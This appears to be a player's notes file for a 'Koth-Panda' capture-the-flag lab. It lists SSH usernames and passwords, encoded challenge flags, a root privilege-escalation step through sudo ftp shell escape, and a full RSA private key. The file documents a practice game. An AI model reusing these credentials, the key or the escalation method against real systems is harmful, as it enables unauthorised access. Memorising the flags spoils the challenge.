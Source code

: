 # Koth-Panda -->

# ssh credentials:
username: shifu

passwd: batman

username: po

passwd: password1


# PANDA FLAGS:

NzRjZTk1ZDZhYTVmNTQyZmU5MDliMThkYzA2ZDRiYTMK

MGNlMTZmYjFiYmM1ODY2OTczY2JlZmNlNjY4YTJmYTcK

YzIzOGI2MzNkNTExOTM3NGYyMmQwNzk4Y2Q5ZDkzOGIK

Mzk3NGRkYWFmM2RjM2ViOGU0NjZlNWQ2YjMyNDZjNWEK





to get root with user shifu:
sudo /usr/bin/ftp
!/bin/sh
find (suid's)


Tigress's Id_rsa:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA0rJZ4ALm6AgaONlRb5YmyTYRqXkI6c/+TGg9biygTS1GiYFC
E+jMqk+q9nsl0cWFjns4Z2MA5uxiPzix7LcywiB6zScGcSkYaqKCFoOFT3VlpQYh
hhSHpPyv2Td6x6D1VhkYC/B2ilQsJJyqbGQ10JnP9wo1USzh21bsBPBs+wz6dnKZ
oY7BWkE1PwBfjhEVEFBSz5XfmcoOK2RQqAJ1YYWoxHA0fJ88pj7PahIGkGrq6g/Z
8AGZhYdZBSl91gMAnRjOrYIq8ufnJNw0YQpA78h9VDJUfXXfEe3EGCTpmcOH0NMa
RyoMS9qreJZ1NgwuTlFJwp5zj9RMRDBqnv/hcQIDAQABAoIBAAOyeX1Cz8Z2je89
cP5iRh/1wO2WYB+qNK4mjh1mzxFLoBc9m2k6Bo1ehIN6ubkqnCNZ6i12QUfMEhVF
62lZ9ZwOcdkzvBs0O2dznpDCkg5I4xW4O9JcfdzZSkSngpIKMwPlwNREze+zdmrW
DO+F+qPEby/IkBLylKwCpHWZum/VTEj1fYCJVHbZf5Pycdg0nOFHigGdpnJW18LI
yL9Firkc4TVsEd1a05THeENvp2nCnreIpBkyf32lOZB7M6AWFsROY1UApLtN7KS/
YPGnL2aftlCfrCqqj5WZQ7AUPAQPqgW+LYr+VaIRHyeRQnK1SFYZfV9PiYC3eloU
U8zMAxkCgYEA/eEHG1fjHb9v5U5leUyQDka9T35+Fq4P+sJh3c3bAQgwBQ0t5576
ZKobHwJZBXGE44gr8DmYnQWRymWWTly0weBMRv6kLCchU9BTGg0SsAEVKxtq+VUp
UyC/N4C0eWl3OAl4JsCpj0z/uc3oMryFyWr7lBajOwrKX0tsLcBqXvMCgYEA1HT4
FFHxwrrhsKztT6CtwHePnDbmzAoo6aSMIAeAf8dkQpddLAw85lHVGUZZie7OxXS7
euOwg15omV+9AxxRne0SEIAf8ldtiyquH+LaZHQElkPpdj2B6rznBywovLNDY4AT
biUGze+MwlH9gUHuyaULB9vcw9Dz30S/XgKwPwsCgYEAg1mQZroy3Co2h0nnQDm3
cltxCJbmP2+w/sjg/3PI8iC9T2/BJ0veOoSz4XhCfIl9+oZyTShPaDYAdtnWSRa3
wnL8o+KNJ/bazFVFGX5YA82bmSDnWLaR2dtgcyPYu9QwBUMI8evODkEFMalxkAZv
pYT/Ql/v9dUgXOtVvdoGbrcCgYEA0k6/TA4ZzXOE+YkUmOArXvx7cl1+dbgQ68dw
1jvW3aYY/zoqhvHOTwfudEiJVdrJX/i/pVRCZKhNzpVQ2wVrXXNRkHfkJ9aXn00u
dG3xVcLqz3yGW/9i3WUFJLp30ON678HWeg+4/p4Erk7PLOaBY6Y2lx7zF/t9jSPW
c08h/CUCgYA2cFZCvohbd27q0BDVHZQhAhLIRnRexTL4urF7Y+BzyGDiiPKcFYM8
44Ruf0x4Yvkjx1k4OR1njTKSmnPA4FSu/jzUH0KsVPUe0Kyx9W6VVyw1LLYuj/iY
KQCo0DuuJ1a3H0niYraMvmpiF73XW72l8SZGw+xT+741AxqZ5ljRpQ==
-----END RSA PRIVATE KEY-----
```

---END---
